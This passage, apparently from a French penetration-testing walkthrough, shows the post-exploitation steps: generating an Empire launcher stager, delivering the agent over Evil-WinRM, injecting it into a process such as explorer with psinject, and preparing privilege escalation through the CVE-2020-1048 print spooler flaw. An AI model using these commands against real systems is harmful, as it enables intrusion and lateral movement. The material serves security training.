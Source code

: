 
Revenez au menu principal en tapant main et créez une étape Empire :

1.) `usestager multi/launcher`

2.) `set Listener http`

3.) `execute`

<img src="https://www.bc-security.org/wp-content/uploads/2019/05/usestager.jpg"/>

---

## Deploiement de l'agent

Evil-WinRM donne accès à une invite PowerShell pour lancer des commandes. Cela donne quelques options différentes pour livrer votre charge utile (par exemple, bat, exe, wget). Vous pouvez choisir celui que vous voulez, sinon, la solution la plus simple est de lancer le one-liner directement dans la fenêtre Evil-WinRM.

<img src="https://www.bc-security.org/wp-content/uploads/2019/05/evil-winrm.jpg"/>
---

## Lancement d'un Process

La session lancée depuis Evil-WinRM a des limitations avec PowerShell. Vous devrez créer un nouveau processus avec Empire pour pouvoir continuer l'exercice. Tout d'abord, recherchez un nouveau processus vers lequel migrer à l'aide de Get-Process (alias ps). En règle générale, vous souhaiterez viser un processus commun qui soit stable et ne sera pas fermé par un utilisateur (par exemple, un explorateur).

- Pour lier votre session Empire avec la session EvilWin-Rm utilisez la commande `interact`

1.)  ps

<img src="https://www.bc-security.org/wp-content/uploads/2019/05/ps_dllhijacking.jpg"/>

Après avoir sélectionné un processus, vous exécuterez 
`psinject <listenername> <processid> `
Cette commande lancera un nouvel agent qui s'exécute localement et non via une session distante.

<img src="https://www.bc-security.org/wp-content/uploads/2019/05/psinject_explorer.jpg"/>

---

## System Check

Maintenant que nous avons établi un point d'ancrage sûr, nous voulons obtenir des privilèges de niveau supérieur. CVE-2020-1048 signifie que les systèmes non corrigés avant Windows build 2004 sont vulnérables à une vulnérabilité d'écriture arbitraire n'importe où et au détournement de DLL par le biais d'une utilisation abusive de l'imprimante.

<img src="https://windows-internals.com/wp-content/uploads/2020/05/spooler-queue.png"/>
